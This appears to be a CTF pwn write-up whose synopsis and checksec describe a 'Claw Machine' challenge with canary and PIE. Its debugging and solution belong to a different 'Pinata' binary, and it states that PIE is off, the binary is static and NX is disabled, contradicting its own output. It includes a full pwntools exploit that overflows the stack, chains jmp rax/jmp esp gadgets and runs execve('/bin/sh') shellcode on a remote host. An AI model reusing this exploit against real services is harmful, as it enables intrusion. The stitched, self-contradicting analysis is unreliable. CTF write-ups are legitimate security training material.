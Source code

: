 
# Synopsis

Claw Machine is an Medium difficulty challenge that features bypassing canaries and dealing with PIE to call a function that reads the flag (ret2win).

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	
Full RELRO   Canary found      NX enabled   PIE enabled          No RPATH   RW-RUNPATH   90 Symbols	  No
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅      | Disables **code execution** on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

Running `file`, we also notice the the binary is `64-bit` and `dynamically linked`.

```console
➜  claw_machine: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0dcdc3f9bead6c2a31478a42c3a9e13e478a230f, not stripped
```

The interface of the program looks like this:

```console
➜  ./claw_machine
▛▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▜
▌▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▐
▌▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▐
█            |             █
█            |             █
█            |             █
█         /▔▔ ▔▔\          █
█        |       |         █
█         \     /          █
█                          █
█                          █
█        __________        █
█        |flag.txt|        █
████████████████████████████

Press '1' to move left, '2' to move right, '9' to grab the prize!

>>
```

### Disassembly ⛏️

The binary indicates that there is `canary`, but trying a big payload, we can see that this is not true.

```gdb
pwndbg> cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
pwndbg> r
Starting program: /home/w3th4nds/github/australia/pwn/[Easy] Pinata/challenge/pinata 
██████████████████████████████████
        █
        █
        █
        █
        █       ████
        █      ██████
        █      ██ ██
 ████████████████
███████████████▬ 
  █████████████
  ██ ██  ██ ██
  ██ ██  ██ ██

Scream as much as you can to break the pinata!!

>> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401889 in reader ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────
*RAX  0x7fffffffde00 ◂— 0x6161616161616161 ('aaaaaaaa')
*RBX  0x7fffffffe018 —▸ 0x7fffffffe395 ◂— 'SHELL=/bin/bash'
*RCX  0x4c6440 (_IO_2_1_stdin_) ◂— 0xfbad208b
*RDX  0x1
*RDI  0x4c90e0 (_IO_stdfile_0_lock) ◂— 0x0
*RSI  0x1
 R8   0x0
 R9   0x0
*R10  0x80
*R11  0x246
*R12  0x1
*R13  0x7fffffffe008 —▸ 0x7fffffffe352 ◂— '/home/w3th4nds/github/australia/pwn/[Easy] Pinata/challenge/pinata'
*R14  0x4c26f0 (__preinit_array_start) —▸ 0x401780 (frame_dummy) ◂— endbr64 
*R15  0x1
*RBP  0x6161616161616163 ('caaaaaaa')
*RSP  0x7fffffffde18 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
*RIP  0x401889 (reader+30) ◂— ret 
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────
 ► 0x401889 <reader+30>    ret    <0x6161616161616164>










────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffde18 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
01:0008│     0x7fffffffde20 ◂— 'eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
02:0010│     0x7fffffffde28 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
03:0018│     0x7fffffffde30 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
04:0020│     0x7fffffffde38 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
05:0028│     0x7fffffffde40 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
06:0030│     0x7fffffffde48 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
07:0038│     0x7fffffffde50 ◂— 'kaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
──────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► f 0         0x401889 reader+30
   f 1 0x6161616161616164
   f 2 0x6161616161616165
   f 3 0x6161616161616166
   f 4 0x6161616161616167
   f 5 0x6161616161616168
   f 6 0x6161616161616169
   f 7 0x616161616161616a
   ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> cyclic -o daaaaaaa
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
```

Instead, we overwrote the return address at `24` bytes. So, we have control of `rip`, `PIE` is off, so we can easily perform a `ret2libc` attack, right? Wrong!

The reason is that the binary is statically linked, meaning there is no record of `system` or other function in `GOT` because everything is already in the binary.

### Debugging 

As we noticed before, `NX` is disabled, meaning we can execute code. We will take advantage of this and the lack of `PIE` and `Canary` to ROP our way around.

First of all, we need to find some useful gadgets.

```console
➜  challenge git:(main) ✗ ropper -f ./pinata --search "jmp rax"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp rax

[INFO] File: ./pinata
0x00000000004016ec: jmp rax;
```

This gadget is extremely handy to return where we have written.

Another useful "gadget" is the `jmp esp` opcode. We will combine these 2 to write to `rax`, jump there and then jump to `esp` to execute our shellcode.

# Solution

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './pinata' 

LOCAL = False

if LOCAL:
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)

sc = asm(shellcraft.execve('/bin/sh'))

payload  = b'\xff\xe4'             # jmp esp opcode
payload += b'\x90'*22
payload += p64(0x00000000004016ec) # jmp rax
payload += sc 

r.recvuntil('>> ')
r.sendline(payload)

pause(1)
r.sendline('cat flag*')
print(f'\nFlag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

```console
➜  htb git:(main) ✗ python solver.py 

Flag --> HTB{f4k3_fl4g_f0r_writ3up}}
```
